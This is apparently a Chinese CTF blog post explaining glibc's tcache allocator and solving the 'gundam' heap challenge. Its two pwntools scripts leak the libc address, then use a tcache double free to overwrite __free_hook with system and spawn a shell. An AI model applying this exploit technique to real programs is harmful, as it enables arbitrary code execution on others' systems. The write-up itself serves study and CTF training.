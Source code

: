 ```yaml
---
layout:     post
title:      Tcache机制介绍
subtitle:    tcache
date:       2019-1-15
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
    - 堆
---
```



> tcache介绍



libc2.26之后增加了tcache机制

这是大佬写的介绍，我自己还有测试 T_T

http://p4nda.top/2018/03/20/tcache/

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/tcache_attack/

https://www.anquanke.com/post/id/104760

下面的题目是一道具体的tcache利用。

# gundam题目解析

![](F:\xineting.github.io\img\1547557808506.png)

保护全开

首先运行题目，

```shell
root@VM-0-13-ubuntu:/home/ubuntu/hitbctf/gundam # ./gundam 

1 . Build a gundam 
2 . Visit gundams 
3 . Destory a gundam
4 . Blow up the factory
5 . Exit

Your choice : 
```

main函数如图，

![1547557851256](F:\xineting.github.io\img\1547557854305.png)

进行测试

![1547699993732](F:\xineting.github.io\img\7699996599.png)

![1547699952444](F:\xineting.github.io\img\5C1547699958781.png)

而destoy函数如图

![1547702466267](F:\xineting.github.io\img\2468327.png)

他并没有把结构体给free掉，

![1547703262626](F:\xineting.github.io\img\262626.png)

而我们的blow up函数，是用来free上边的块的

![1547734299758](F:\xineting.github.io\img\734299758.png)

首先获得libc的地址

这个不管libc的版本是否大于2.26都可以运行。

```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)
else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')
for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
```



完整的脚本如图，如果libc<2.26则会报double free的错误。

 ```python
#coding:utf-8
from pwn import *
debug = 1

if debug:
        p = process('./gundam')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        context.log_level = 'debug'
        context.terminal = ['tmux', 'split', '-h']
        gdb.attach(p)

else:
        p = remote('47.75.37.114', 9999)
        libc = ELF('./libc.so.6')
        context.log_level = 'debug'
        #libc = ELF('./libc-2.23.so')
        #off = 0x001b0000

def build(name,type):
        p.recvuntil('choice :')
        p.sendline('1')
        p.recvuntil('The name of gundam :')
        p.send(name)
        p.recvuntil('The type of the gundam :')
        p.sendline(str(type))
def visit():
        p.recvuntil('choice :')
        p.sendline('2')
def destroy(index):
        p.recvuntil('choice :')
        p.sendline('3')
        p.recvuntil('Which gundam do you want to Destory:')
        p.sendline(str(index))
def blow():
        p.recvuntil('choice :')
        p.sendline('4')

for i in range(0,9):
        build('p4nda',1)
for i in range(0,9):
        destroy(i)
blow()
for i in range(0,7):
        build('a'*8,1)
build('a'*8,1)
build('a'*8,1)
visit()
p.recvuntil('Gundam[7] :aaaaaaaa')
libc.address = u64(p.recv(6).ljust(8,'\0')) - 88 - 0x18 - libc.symbols['__malloc_hook']
print "libc - >"+hex(libc.address)
print '[*] system:',hex(libc.symbols['system'])
for i in range(0,8):
        destroy(i)
blow()
build('p4nda',1) #0
build('/bin/sh\0',1) #0 1
build('p4nda',1) #0
destroy(0)
destroy(0)
pause()

build(p64(libc.symbols['__free_hook']),1)# 0 1 2
pause()
build('AAAAAAAA',1)
pause()
build(p64(libc.symbols['system']),1)
pause()
destroy(1)

p.interactive()
 ```

